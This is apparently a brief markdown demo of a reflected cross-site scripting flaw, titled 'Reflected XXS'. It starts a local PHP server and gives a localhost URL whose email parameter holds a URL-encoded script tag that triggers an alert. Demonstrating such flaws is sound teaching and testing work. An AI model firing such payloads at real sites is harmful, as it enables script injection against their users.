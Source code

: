 ## Reflected XXS


```shell
php -S localhost:8123
```

http://localhost:8123/welcome_get.php?name=Dennis&email=%3Cscript%20type%3D%22text%2Fjavascript%22%3Ealert%28%22XSS%22%29%3B%3C%2Fscript%3E